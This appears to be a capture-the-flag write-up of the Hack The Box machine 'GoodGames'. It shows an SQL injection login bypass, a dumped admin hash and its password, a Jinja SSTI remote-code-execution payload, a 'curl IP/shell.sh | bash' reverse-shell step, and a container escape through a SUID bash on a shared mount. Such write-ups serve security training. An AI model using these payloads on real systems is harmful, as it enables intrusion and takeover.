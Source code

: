 ```yaml
---
description: >-
  Basic web exploits of SQL Injection and SSTI, followed by a Docker Container
  Escape.
---
```


# GoodGames

## Gaining Access

As usual we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (63) (2) (1).png" alt=""><figcaption></figcaption></figure>

Take note of the `goodgames.htb` domain name.&#x20;

### SQL Injection

The website is about some video games stuff:

<figure><img src="../../../.gitbook/assets/image (23) (2) (2).png" alt=""><figcaption></figcaption></figure>

In the corner of the page, there's a login available.

<figure><img src="../../../.gitbook/assets/image (41) (2) (1).png" alt=""><figcaption></figcaption></figure>

This login is bypassable with the `' OR 1=1 -- -` input for the `email` parameter. When we login, we would be redirected to `internal-administration.goodgames.htb`.  This page has another login where SQL Injection does not work.

<figure><img src="../../../.gitbook/assets/image (1) (1) (7).png" alt=""><figcaption></figcaption></figure>

Initially, I assumed that we needed to find credentials elsewhere and looked around the website. Understanding that there was an SQL Injection weakness earlier, we probably could dump out the credentials.

I used `sqlmap` to automatically dump ot out, and got `admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec` as the output. This hash could be cracked to give the password of `superadministrator`.&#x20;

### SSTI in Username

Once logged in, the page redirected us to a dashboard where we could update our user profile.

<figure><img src="../../../.gitbook/assets/image (35) (3) (1).png" alt=""><figcaption></figcaption></figure>

The profile updater takes the user input for full name and outputs it on the screen. I tested this with a `{{7*7}}` payload as this was running on Werkzeug, which was a Python based server (detected in Nmap scan earlier).&#x20;

I was pleased to see that it worked:

<figure><img src="../../../.gitbook/assets/image (13) (3) (1).png" alt=""><figcaption></figcaption></figure>

With that, I proceeded to dump out the config of this server using `{{config.items()}}`.&#x20;

<figure><img src="../../../.gitbook/assets/image (44) (2) (1).png" alt=""><figcaption></figcaption></figure>

The SSTI also granted us RCE on the server with this payload:

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

<figure><img src="../../../.gitbook/assets/image (53) (2) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can replace the `id` command with a `curl IP/shell.sh | bash` payload to gain a reverse shell as root on this Docker Container.

<figure><img src="../../../.gitbook/assets/image (22) (5) (1).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Now that we are in the container, we can scan around the network for other hosts that are alive. This can be done using this one-liner:

```bash
for i in {1..254}; do ping -c 1 172.19.0.$i | grep 'from; done 
```

<figure><img src="../../../.gitbook/assets/image (17) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

172.19.0.1, but we have no users and cannot do much with this for now. We can check the `/home` directory to find the `augustus` user. Additionally, I used `mount` to check all the directories mounted into the container from the host.

<figure><img src="../../../.gitbook/assets/image (51) (2) (1).png" alt=""><figcaption></figcaption></figure>

Since there was no `augustus` user within the `/etc/passwd` file on the container, this must be from the host. I just tried to SSH into 172.19.0.1, and it worked.

<figure><img src="../../../.gitbook/assets/image (52) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Earlier, we determined using `mount` that a possible mount point was the `/home/augustus` directory. Files that were edited while I was in the container were reflected within the host as well.&#x20;

When copying files into that directory, because I was a root user in the container, the owner of the files in the host was also root. So, I copied over `/bin/bash` and did `chmod +s bash` within the user directory.

This created a bash file with the SUID bit set within the host:

<figure><img src="../../../.gitbook/assets/image (31) (1) (3).png" alt=""><figcaption></figcaption></figure>

Getting root is trivial:

<figure><img src="../../../.gitbook/assets/image (59) (2).png" alt=""><figcaption></figcaption></figure>
